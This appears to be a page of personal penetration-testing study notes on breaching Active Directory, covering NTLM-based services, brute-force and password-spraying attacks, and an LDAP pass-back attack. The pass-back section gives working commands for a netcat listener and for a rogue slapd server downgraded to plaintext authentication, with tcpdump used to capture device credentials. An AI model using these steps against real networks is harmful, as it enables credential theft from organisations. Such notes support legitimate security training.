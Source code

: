 NTML : New Technology LAN Manager is the suite of security protocols used to authenticate users' identity in AD

NetNTLM : Authentication by using a chellenge-response based cheme called NetNTLM

Example of services who use NTLM :
- Internally-hosted mail server that expose an Outlook Web App
- RDP exposed to the internet
- VPN integrated with AD
- Web applications internet facing and make use of NetNTLM

#### Brute-force login attack

Use script or tool like hydra

#### Password spraying

Test multiple username with one password (default password of company for example)

---

### LDAP Bind Credentials

#### LDAP Pass-back attacks

Common attack against network devices -> plugging in rogue device

```bash
$ service slapd stop
$ $ nc -lvp 389
listening on [any] 389 ...
10.10.10.201: inverse host lookup failed: Unknown host
connect to [10.10.10.55] from (UNKNOWN) [10.10.10.201] 49765
0?DC?;
?
?x
 objectclass0?supportedCapabilities
```

```
# Hosting a rogue LDAP server
$ sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
# If necessary -> reconfigure slapd
$ sudo dpkg-reconfigure -p low slapd
# Downgrade the supported authentication mechanisms
$ echo "#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred" > olcSaslSecProps.ldif
# Patch our LDAP with the ldif file
$ sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
# Verify configuration
$ ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
dn:
supportedSASLMechanisms: PLAIN
supportedSASLMechanisms: LOGIN

# Capture trafic and password 
$ sudo tcpdump -SX -i breachad tcp port 389
``` 

---